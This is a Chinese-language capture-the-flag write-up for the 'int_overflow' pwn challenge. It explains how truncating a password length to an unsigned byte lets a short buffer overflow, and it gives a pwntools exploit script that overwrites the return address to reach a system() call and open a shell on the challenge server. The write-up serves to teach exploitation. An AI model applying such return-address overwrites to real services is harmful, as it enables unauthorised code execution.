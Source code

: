 # int_overflow

## 一、审题

![](./img/int_overflow1.PNG)

## 二、解题思路

1、考点为整数溢出，先checksec看看保护情况，32位，got表可写，没有栈溢出保护，堆栈不可执行，代码段加载地址固定；

![](./img/int_overflow2.PNG)

2、使用ida打开程序，查看伪代码，main函数中主要有两个功能，exit不用看，重点看login，在login函数中需要输入username（最长0x19）和password（最长0x199），此处不存在缓冲区溢出，再进一步看check_passwd函数，发现存在整数溢出点，如下图，v3变量的类型为unsigned __int8，只有一字节的空间，但是s数组的长度最长可达0x199，只需要满足最后一字节在4~8之间即可，这里主要是大到小的类型转换出现截断，并且dest变量的长度只有10字节，可溢出覆盖返回地址；

![](./img/int_overflow3.PNG)

3、查看存在system语句，如下图，直接将返回地址改为此函数地址即可；

![](./img/int_overflow4.PNG)

4、exp如下：

```python
from pwn import *

s = remote('220.249.52.133', 48307)
r_addr = 0x0804868B
payload = 'a'*0x18 + p32(r_addr) + 'a'*(0x104-0x18-0x4)

s.sendlineafter('Your choice:','1')
s.sendlineafter('Please input your username:','aaa')
s.recvuntil('Please input your passwd:')
s.sendline(payload)

s.interactive()
```

结果如下：

![](./img/int_overflow5.PNG)